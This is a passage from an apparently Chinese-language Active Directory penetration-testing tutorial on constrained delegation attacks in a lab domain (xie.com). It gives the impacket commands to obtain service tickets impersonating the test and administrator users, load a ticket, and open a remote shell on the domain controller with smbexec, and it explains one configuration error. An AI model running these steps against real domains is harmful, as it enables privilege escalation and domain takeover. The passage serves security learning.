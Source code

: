 然后我们就可以进行约束性委派攻击了，如下我们使用 impacket 和 Rubeus 进行约束性委派攻击。

#### （1）使用 impacket 攻击

首先，需要把攻击机的`/etc/resolv.conf` 文件中的 DNS 服务器指定为域控。然后执行如下命令进行攻击：

```
#以 test 的身份申请一张访问 cifs/ad01.xie.com 服务的票据
python3 getST.py -dc-ip AD01.xie.com xie.com/hack:P@ss1234 -spn cifs/ad01.xie.com -impersonate test
python3 getST.py -dc-ip AD01.xie.com xie.com/server_account:P@ss1234 -spn cifs/ad01.xie.com -impersonate administrator
#导入票据
export KRB5CCNAME=test.ccache
python3 smbexec.py -no-pass -k ad01.xie.com
```

如图所示，可以看到执行完这些命令后，即可远程连接域控制器 AD01。

![截图](ef09c6eef0cffb670e7691df85afe3ee.png)

如果出现如图所示报错，则是因为给 hack 用户配置委派的时候，选择的是仅使用Kerberos(K) ，如图所示，这样的话就不会进行协议转化，所以报错。

![截图](7bb284928454e6584a1b55a7415db1c3.png)

![截图](8d8f1ceb41beabb2aefefaf513253c41.png)

